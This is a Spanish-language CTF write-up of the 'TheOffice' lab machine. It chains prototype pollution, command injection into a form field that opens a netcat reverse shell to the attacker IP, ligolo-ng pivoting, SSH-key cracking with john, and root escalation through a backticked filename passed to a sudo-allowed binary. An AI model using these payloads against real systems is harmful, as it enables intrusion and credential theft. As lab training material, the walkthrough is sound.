## Introducción

En este laboratorio utilizamos una máquina virtual con KaliLinux como máquina atacante (A) y la máquina víctima TheOffice (V). 

  IP de (A): 10.1.0.8

## Reconocimiento sobre la red

Como vemos en nuestra máquina (A) tenemos la interfaz eth1 que está conectada a la red de (V). Con la herramienta`netdiscover` procedemos a escanear todo el segmento de la red. Esta herramienta nos resulta más rápida que `nmap` para el descubrimiento de red y encontrar los equipos del segmento.
<figure>

</figure>

<figure>

</figure>

Intentamos obtener los puertos abiertos, versiones de servicios disponibles, sistema operativo e información relevante relacionada a (V)
## Escaneo y Enumeración
Para el escaneo y enumeración ejecutamos el comando nmap. El comando utilizado a continuación (A) → (V):
```sh
nmap -sV -sC -O -p- 10.1.0.9
```
Parámetros utilizados:
- `-sV`: obtener la versión de los servicios que están corriendo 
- `-sC`: posibles vulnerabilidades
- `-O`: detección de sistema operativo
- `-p-`: puertos abiertos

<figure>

<figcaption><small>Fig. 1</small></figcaption>
</figure>

Como se puede ver (Fig. 1) encontramos 2 puertos abiertos:
- El primero es del servicio SSH (22/tcp) con la versión 9.2p1 de OpenSSH
- El segundo es un servicio web (80/tcp). El motor del servidor es Node.js con Express Framework. Este servidor web está corriendo javascript (no encontraremos archivos php o de otros servicios web, al menos este es el indicio en un principio)

## Footprinting del servicio HTTP

Listamos los directorios del servicio web en búsqueda de alguna dirección que nos interese, como por ejemplo un login, una flag o algún archivo de texto como robots.txt. Para esto una herramienta rápida y que ya posee un diccionario es dirb.
Ejecutamos: `dirb http://10.1.0.9`

<figure>

<figcaption><small>Fig. 2</small></figcaption>
</figure>

Encontramos dos rutas (Fig. 2):
- /admin
- /login
Dirb nos brinda un indicio de que todas las variantes de estas dos rutas son lo mismo, ya que el peso y el código de respuesta fue igual.

### Enumeración del sitio
Abrimos el navegador en (A) y procedemos a navegar el sitio.
#### Index
Para el sitio web principal http://10.1.0.9 no obtuvimos información relevante, simplemente un sitio web HTML plano. El código fuente a continuación (Fig. 3)
<figure>

<figcaption><small>Fig. 3</small></figcaption>
</figure>

<figure>

</figure>

#### /login

La ruta `http://10.1.0.9/login` nos  un formulario de inicio de sesión y un texto que indica el usuario y contraseña de una cuenta de invitado (Fig. 4). El usuario y contraseña es “guest”.

<figure>

<figcaption><small>Fig. 4</small></figcaption>
</figure>

Dentro del código fuente del mismo sitio observamos una pista interesante (Fig. 5). Parece que indica la forma en la que están instanciando las credenciales en el servidor o al menos cómo se define la estructura de datos de las credenciales. 

<figure>

<figcaption><small>Fig. 5</small></figcaption>
</figure>

Según el comentario encontrado, la estructura de una credencial para este sitio es un objeto JSON que tiene 4 propiedades:
- username: simplemente el usuario en texto plano
- password: la clave que está almacenada como un string hexadecimal.
- En el caso del usuario admin, la clave el string parece ser generada usando la biblioteca crypto generando 64 bytes de forma aleatoria
- En el caso del usuario guest (como se observó en la Fig. 4) la clave es guest.
- cookies: de la misma forma que la clave de admin se genera, se define la cookie.
- isAdmin: si bien sólo admin tiene esta variable, es un boolean que parece indicar si tiene permisos de administrador.

De este paso podemos resumir:
1. las cookies son generada de forma aleatoria y sería muy difícil aplicar fuerza bruta al menos como primera opción
2. La propiedad isAdmin podría ser importante si se logra añadir al usuario guest. Esto tendrá como efecto pasar a ser “administrador”, podría significar un escalamiento de privilegios vertical.

#### /admin

Cuando se inicia sesión con el usuario guest somos redirigidos a /admin. Observamos que tenemos un formulario con un input y un botón (Fig. 6). En el código fuente vemos un script de JS que hace un request a /admin/check_proccess del que hablaremos más adelante.

<figure>

<figcaption><small>Fig. 6</small></figcaption>
</figure>

Si hacemos una prueba simple, insertando cualquier tipo de dato en el input, obtenemos el mensaje You are not the admin (Fig. 7)

<figure>

<figcaption><small>Fig. 7</small></figcaption>
</figure>

Otro punto interesante que surge al iniciar sesión es la cookie que obtuvimos. Probablemente generada como lo menciona el comentario en HTML encontrado en /login (Fig. 5)

<figure>

</figure>
<figure>

</figure>

Esta cookie siempre parece ser la misma, aún cuando se cierre la sesión, expire la cookie o se abra en otro navegador, el string generado es el mismo. Podría ser que está definida en memoria una vez iniciado el servidor web y no vuelve a generarse.

También podemos notar que la cookie no tiene ningún tipo de parámetros de seguridad definidos como HttpOnly, SameSite o Secure, mencionados en [OWASP Session Managment Cookies](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#cookies). Cumpliría quizá con la entropía si no fuera generada por única vez y sólo se definió un tiempo de expiración.

#### Endpoint /admin/check_proccess
Este endpoint posee un body con un campo proccess donde se envía el dato que insertamos en el input de /admin ([Documentación Mozilla - XMLHttpRequest | Send](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send))

<figure>

<figcaption><small>Fig. 8</small></figcaption>
</figure>

El script que vemos en la Fig. 8 pertenece a /admin y tenemos una idea clara del request que ejecuta:
- El header content-type tiene formato `application/x-www-form-urlconded`
- Se envía el param `proccess=` con el valor obtenido del input (Fig.6).
- La url del endpoint que ya se mencionó anteriormente es `/admin/check_proccess`
- La cookie se está enviando en el header

##### Análisis de Vulnerabilidades sobre el endpoint

Intentamos realizar la misma petición pero con otro content-type como application/json junto con un payload no válido (por ejemplo un JSON con mal formato {“}). Para esto se utilizó BurpSuite que permitió modificar y reintentar las peticiones de una manera fácil. Llevamos el request a repeater y modificamos el Content-Type a application/json. Modificamos el body y enviamos.

<figure>

</figure>

<figure>

</figure>

Podemos observar que nos brinda un error de que no fue posible hacer JSON.parse y por lo tanto asumimos que la información no es relevante excepto por el dato de que existe una carpeta de usuario llamada “/home/node” en el servidor.

Intentamos varios métodos posibles en este punto:
1. Ejecutar código javascript en los inputs de los formularios ([OWASP XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html))
2. Observamos el comportamiento de posibles valores al ser insertados en el endpoint de check_process. Por ejemplo cuando no se envía la cookie se valida que no se ha iniciado una sesión y lo mismo sucede si enviamos una cookie “falsa”.
3. Con hydra intentamos fuerza bruta sobre el login mediante http-post-form utilizando como usuario “admin”

##### Explotación de vulnerabilidad [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution)
Podemos observar que la pista sobre la propiedad isAdmin puede ser relevante al intentar modificar el esquema de los objetos JSON globalmente utilizando la propiedad `__proto__` de JS (en BurpSuite puede encontrarse como Client-side prototype pollution). En nuestro caso queremos que en los objetos exista una propiedad isAdmin con valor true. Para lograr esto buscamos que el servidor modifique el tipo Object globalmente para que cuando utilicemos una instancia (como la alojada en credentials) tenga la propiedad ya predeterminada.

Hacemos la modificación de `Content-Type` a `application/json`, enviamos el payload con la propiedad `__proto__`

<figure>

</figure>

No tenemos éxito al intentar esto, entonces podemos probar otro flujo de la aplicación, por ejemplo cuando un usuario que no está con su sesión iniciada e intenta hacer un request al endpoint. Para esto borramos la cookie e intentamos nuevamente:

<figure>

</figure>

Recargamos el sitio `/admin` e insertamos un valor cualquiera, enviándolo a `/admin/check_proccess`. Ahora el alert resultante tiene el mensaje Existe el proceso.

<figure>

</figure>

En el flujo autenticado parece que no hay problema con respecto al manejo del body JSON, sin embargo, al enviar la petición sin autenticación, este es vulnerable modificando los Object. 

Si bien está mal diseñada la autenticación por almacenar en memoria por única vez las cookies y demás valores (quitando toda entropía de la generación aleatoria), también el objeto que contiene las credenciales fue contaminado al evaluar el body que enviamos. Una solución rápida sobre el código podría ser limpiar (sanitize) la entrada o hacer un [freeze](https://security.snyk.io/vuln/SNYK-JS-TOUGHCOOKIE-5672873) sobre el objeto de credenciales al generarlo (como mínimo).

##### Estableciendo shell reversa

Ahora que ya podemos ejecutar este flujo podemos intentar iniciar una shell reversa. En una terminal de la máquina (A):
1. msfconsole
2. buscamos un reverse shell que podamos utilizar, como por ejemplo netcat
3. definimos LHOST y LPORT de (A)

<figure>

</figure>

Ahora ingresamos el valor en el input para que /admin/check_process pueda ejecutarse y (V) se conecte a la máquina atacante (A)

Entonces el valor insertado para conectarnos a la shell reversa `*; nc 10.1.0.8 4444 -e sh`

<figure>

</figure>

Observamos en msfconsole que tenemos la conexión establecida

<figure>

</figure>

Ingresamos mediante el uso de la sesión y probamos usar `whoami` para ver el usuario
<figure>

</figure>

##### Análisis de vulnerabilidades del flujo mediante el código

Por curiosidad, observamos el código del servicio express y encontramos el endpoint:
<figure>

</figure>

La función securityLog que es utilizada cuando un usuario no está con su sesión iniciada (isLogedin) utiliza la función extend de node que al hacer un deep merge(biblioteca [node.extend](https://github.com/dreamerslab/node.extend?tab=readme-ov-file)) de nuestro payload malicioso sobre el objeto a imprimir mediante console.log modificando los Object y así permitiendo definir isAdmin.

<figure>

</figure>

También aportamos un punto más preciso sobre la [función](https://github.com/dreamerslab/node.extend/blob/efbe6b9b705acca9288df85dbc8345c94a7ba60a/lib/extend.js#L47) y el parámetro de deep merge en la documentación de [jQuery](https://api.jquery.com/jQuery.extend/) donde también recomienda el uso sanitizado de los objetos.

## Obteniendo el primer archivo: “user.txt”
Podemos observar que es un sistema operativo Alpine, comúnmente usado en contenedores por su reducido tamaño.

<figure>

<figcaption><small>Fig. 9</small></figcaption>
</figure>

También observamos que en /home/node tenemos un archivo oculto .ftp
<figure>

</figure>

<figure>

</figure>

`carlton:gQzq2tG7sFxTm5XadrNfHR`

Mediante el comando `history` podemos ver las ejecuciones de algunos comandos que podrían ayudarnos como por ejemplo `agent -connect` y el parámetro `-ignore-cert`.

<figure>

<figcaption><small>Fig. 10</small></figcaption>
</figure>

### Reconocimiento
Descubrimos que el equipo al que ingresamos no es el que esperábamos (10.1.0.9), porque en el listado de interfaces no aparece la IP de la víctima. Parece que estamos en un entorno virtualizado, como suponíamos quizá un contenedor. Dentro del listado de interfaces encontramos la subred 172.101.0.0/28.

<figure>

<figcaption><small>Fig. 11</small></figcaption>
</figure>

En sintonía con esto, una búsqueda en Google sobre los comandos encontrados (Fig. 10) parece ser una herramienta para hacer pivoting sobre la red (ver fuente de [Swisskeyrepo Network Pivoting Techniques - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/#ligolo-ng)).  Consiste en utilizar `ligolo-ng` que posee dos partes:
1. Proxy: una herramienta que se ejecuta en (A) y ayuda a establecer un proxy para utilizar escaneo de redes y otras herramientas dentro de una subred a la que sólo tiene acceso (V). 
2. Agent: un binario que se ejecuta en (V) y permite realizar la conexión con (A) y enrutamiento o forwarding hacia la subred objetivo.
Por lo tanto, con `ligolo-ng` podríamos hacer un escaneo de este segmento, algo que desde (A) no podríamos hacer directamente, no tenemos quién nos enrute hacia esa red.

<figure>

</figure>

### Escaneo y Enumeración de objetivos en la subred con ligolo-ng
Para comenzar debemos descargar las partes mencionadas anteriormente, para ello nos dirigimos al repositorio y [descargamos la última versión disponible](https://github.com/nicocha30/ligolo-ng/releases) en (A). Tanto el contenedor como nosotros tenemos amd64 arquitectura del sistema operativo (Fig. 9).

<figure>

</figure>

Para esto utilizaremos wget sobre la url del agent y el proxy, descargando un .tar.gz para cada uno.

```sh
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
```
<figure>

</figure>

```sh
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
```
<figure>

</figure>

Creamos una carpeta para llevar estos archivos a un lugar más ordenado y usamos el comando tar -xvf “nombre-de-archivo.tar.gz” para obtener los binarios de cada uno. 

<figure>

</figure>

<figure>

</figure>

Ahora necesitamos ejecutar el agente en (V) donde tenemos la shell reversa. Una forma podría haber sido descargarlo directamente con wget desde la víctima y otra forma puede ser utilizar el servicio web que ya posee KaliLinux en (A) para disponibilizar. Para ello en (A) copiamos el archivo agent al directorio /var/www/html. También nos aseguramos que el servicio de apache2 esté iniciado.

<figure>

</figure>

Vamos a la shell reversa que tenemos con (V) y ejecutamos wget `http://10.1.0.8/agent`

<figure>

</figure>

Le damos permisos de ejecución con `chmod +x agent`

<figure>

</figure>

Ahora procedemos a iniciar el proxy en (A) mediante el comando `sudo ./proxy -selfcert`. Tenemos que usar sudo para que ligolo-ng pueda administrar nuestras interfaces de red y rutas hacia el agente. Además, utilizamos el parámetro -selfcert porque no necesitamos más que una comunicación simple y de ser posible encriptada con TLS.

<figure>

</figure>

Por defecto, ligolo escucha en el puerto `11601`, ejecutamos en la víctima el agente con el comando `./agent -connect 10.1.0.8:11601 -ignore-cert`

<figure>

</figure>

Listo, nuestro agente está conectado a nosotros. También desde (A) podemos observar esto:

<figure>

</figure>

Ahora debemos configurar las rutas. Para ello en (A) creamos una nueva interfaz que nos ayudará a hacer de tunel hacia el agente con el comando `ifcreate --name ligolo`

<figure>

</figure>

Agregamos la ruta hacia la red 172.101.0.0/28 que obtuvimos anteriormente (Fig. 10). Usamos el comando `route_add --name ligolo --route 172.101.0.0/28`

<figure>

</figure>

Si observamos con `iflist` ya tenemos configurada la ruta

<figure>

</figure>

Con el comando session seleccionaremos el agente que está conectado

<figure>

</figure>

Ejecutamos tunnel_start

<figure>

</figure>

Listo, ahora desde (A) mediante otra terminal podemos verificar que tenemos ping a `172.101.0.2`

<figure>

</figure>

Por lo tanto, ya podemos proceder a escanear la red. Usamos nuevamente nmap sobre toda la red utilizando el comando `nmap -sV -sC -O -p- 172.101.0.0/28`

<figure>

</figure>

<figure>

</figure>

Encontramos los siguientes hosts:
1. IP `172.101.0.1`
	- SSH (22/tcp)
	- Servidor web (80/tcp)
2. IP `172.101.0.2` es donde estamos ejecutando el agente ligolo-ng
3. IP `172.101.0.3`:
	- FTP (21/tcp)
4. IP `172.101.0.4`:
	- SSH (22/tcp)
5. IP `172.101.0.11`:
	- SSH (22/tcp)

### Accediendo al servicio de FTP

Vemos que en el host `172.101.0.3` tenemos un FTP y ya teníamos las posibles credenciales.
`carlton:gQzq2tG7sFxTm5XadrNfHR`
Usamos el comando `ftp carlton@172.101.0.3`

<figure>

</figure>

Luego de completar el movimiento lateral buscamos información relevante, descubriendo que en el directorio hay una posible llave ssh (por su nombre), la descargamos con el comando get.

<figure>

</figure>

Si intentamos abrir la llave no podemos porque tiene clave:

<figure>

</figure>

### Explotación mediante fuerza bruta sobre llave SSH

Podríamos intentar aplicar fuerza bruta, pero para ello debemos pasarlo al formato correcto para que el comando john y el diccionario elegido puedan usar esta llave privada. Para ello ejecutamos ssh2john:

```sh
ssh2john id_rsa > hash_id_rsa
```

Luego para aplicar fuerza bruta usamos el comando

```
john –wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
```
<figure>

</figure>

Como ya tenemos la clave de ssh, probamos leer la misma usando el comando: 
```
ssh-keygen -yf id_rsa
```

<figure>

</figure>

Ahora sabemos que el usuario del ssh puede ser `willsmith`. Intentaremos ingresar al SSH de 172.101.0.1, 172.101.0.4 o 172.101.0.11 utilizando el comando:

```
ssh -i id.rsa 172.101.0.X
```

Observamos que sólo podemos ingresar al host `172.101.0.11`

<figure>

</figure>

En su home obtenemos la primera flag (archivo `user.txt`)
`flag{xxxxxxxxxxxxxxxxxxxxxxx}`

<figure>

</figure>

## Sobre el servidor 172.101.0.11
A continuación se describen los pasos seguidos sobre el host, con el objetivo de obtener la siguiente flag.

### Reconocimiento en el host .11

Tenemos algunos archivos llamativos en el host de este usuario, entre ellos otro “.ftp” con usuario y clave
<figure>

</figure>

`willsmith:2j9ptYyw3uKJHxLb6ZzRNh`

### FTP del usuario willsmith
Si intentamos acceder a 172.101.0.3 con el usuario de willsmith encontramos el archivo “uncompress.c” de lenguaje C que contiene el código fuente. Lo descargamos para revisar, para ello usaremos el comando get

<figure>

</figure>

Parece que el código toma un argumento que es un archivo 7z y a partir del nombre ejecuta un comando. Por ejemplo si el archivo comprimido en 7z fuera “`whoami`.7z” ejecutaría el comando whoami.

### Análisis de vulnerabilidades uncompress

Volviendo al host 172.101.0.11 podemos buscar si tenemos el binario de uncompress o si podemos crearlo. Buscamos con el comando:

```
find / -type f -iname uncompres*
```

Podemos ver que en /usr/bin y /opt existe

<figure>

</figure>

Como en el home del usuario willsmith ya existe un archivo whoami.7z vamos a intentar ejecutarlo con `uncompres`, para ello usaremos el comando

```
/opt/uncompress /home/willsmith/\`whoami\`.7z
```

Es muy interesante, logramos que en la salida de la ejecución se imprima por pantalla el nombre del usuario (ver whillsmith.7z en la siguiente captura)

<figure>

</figure>

En la máquina anterior (cyberpunk), utilizamos el comando “sudo -l” para descubrir si teníamos permisos de ejecutar algún comando como root. Observamos que podemos ejecutar uncompress de esta manera:

<figure>

</figure>

### Explotación de vulnerabilidad en uncompress

Por lo tanto podríamos crear un archivo 7z que nos permita tener una shell en modo root. En este punto es importante destacar que existen muchas alternativas para escalar privilegios y cada una con ventajas y desventajas. Por ejemplo:
- ‘chmod u+s /bin/bash’: este fue utilizado por nuestro grupo en el reto 1 permitiendo ejecutar bash como root, esto puede ser detectado por el cambio de permisos en los archivos.
- también se podría cambiar la contraseña de root al acceder a una shell mediante la ejecución temporal de bash y así tomar el control de root por completo, sin embargo sería extremadamente invasivo
- una shell reversa es un metodo temporal pero muy efectivo
- convertir al usuario a sudoers o agregarlo al group root

En este seguiremos una pista que existe en el archivo shell.sh que claramente parece realizar una conexión a otro host para establecer una shell reversa. Entonces al ejecutar uncompress con `bash shell.sh`.7z (archivo que ya existe) se establecería la conexión.

<figure>

</figure>

Con el comando sed podemos modificar el contenido para apuntar a (A)
```
sed s/10.0.2.5/10.1.0.8/g shell.sh
```
<figure>

</figure>

También nos aseguramos de que lo ejecute como sudo

<figure>

</figure>

Finalmente nuestro archivo shell.sh quedará así:

<figure>

</figure>

En (A) abrimos una nueva terminal y abrimos `msfconsole`, debemos escuchar la conexión en el puerto 8888. Para ello usamos multi/handler y payload linux/x64/shell_reverse_tcp. Configuramos las opciones como se muestra en la imagen:

<figure>

</figure>

Ejecutamos exploit

<figure>

</figure>

### Escalada de Privilegios

Ahora en la víctima ejecutamos el comando “sudo /opt/uncompress ‘`bash shell.sh`.7z’

<figure>

</figure>

Ya tenemos la sesión y estamos como root.

<figure>

</figure>

Si nos dirigimos al directorio /root con el comando “cd /root” encontramos el archivo office.thl. Este contiene un usuario y contraseña

<figure>

</figure>

```
office:P4mDjcVfqrj7eEXBV7EX
```
## Reconocimiento - Ingresando al servidor de docker

En este caso, parece ser que que las credenciales obtenidas en el paso anterior no son de un FTP sino del SSH de 172.101.0.1. Para acceder ejecutamos el comando

```sh
ssh office@172.101.0.1
```

<figure>

</figure>

Una vez dentro, podemos consultar qué posibilidades de ejecutar como sudo tenemos. Vemos que este usuario tiene todos los permisos para ejecutar.

<figure>

</figure>

### Escalamiento de privilegios

Entonces ejecutamos `sudo su` e ingresamos la clave de office que conseguimos.

<figure>

</figure>
Al ejecutar el comando `docker ps` nos damos cuenta que la máquina es el servidor principal (V) y comprobamos que tiene los contenedores ejecutándose.

<figure>

</figure>

Finalmente nos dirigimos a la carpeta /root y tenemos el archivo que buscábamos.

<figure>

</figure>

